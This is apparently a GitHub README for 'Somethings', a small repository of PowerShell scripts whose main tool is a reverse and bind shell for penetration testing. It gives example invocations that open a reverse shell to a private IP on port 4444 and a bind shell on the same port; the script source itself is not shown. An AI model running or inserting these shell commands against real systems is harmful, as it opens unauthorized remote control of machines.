 # Somethings

**Somethings** is a collection of scripts and tools designed for various automation, networking, and system management tasks. This repository serves as a resource for security enthusiasts, developers, and IT professionals seeking to streamline workflows and explore unique scripting solutions.

## Repository Overview

This repository currently contains a range of PowerShell scripts and other utilities, including reverse shell scripts, bind shells, automation tools, and more. Each script is optimized and includes documentation to facilitate ease of use and adaptation to different scenarios.

## Available Tools

### 1. PowerShell Reverse Shell Script

A versatile PowerShell script that supports both reverse and bind shell connections. It allows remote command execution through an interactive PowerShell session, useful in penetration testing or remote system management.

- **Modes**: Reverse shell and Bind shell
- **Example Usage**:
  - Reverse Shell:
    ```powershell
    Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
    ```
  - Bind Shell:
    ```powershell
    Invoke-PowerShellTcp -Bind -Port 4444
    ```

For full details and usage examples, refer to the script’s [documentation](./shells/PowerShell_Reverse_Shell_Script/README.md).

### 2. Automation Tools (Coming Soon)

Stay tuned for more scripts and utilities designed for task automation and system monitoring.

## How to Use

1. **Clone the Repository**:
   To clone this repository to your local machine, use the following command:
   ```bash
   git clone https://github.com/yourusername/Somethings.git
   ```

2. **Explore the Scripts**:
   Navigate through the directories to find the scripts and tools that match your needs. Each tool is documented with usage examples and necessary parameters.

3. **Contribute**:
   Feel free to contribute your own scripts or enhancements by submitting pull requests. We welcome tools that can help the community with system administration, security, automation, and more.

## License

This repository is licensed under the MIT License. See the [LICENSE](./LICENSE) file for more information.

## Contributions

Contributions are welcome! If you have a script or tool that you'd like to share, or if you'd like to improve an existing one, submit a pull request. Please ensure that your code includes comments and documentation to help others use it effectively.

## Contact

For any questions or suggestions, feel free to open an issue on GitHub, or reach out via email.

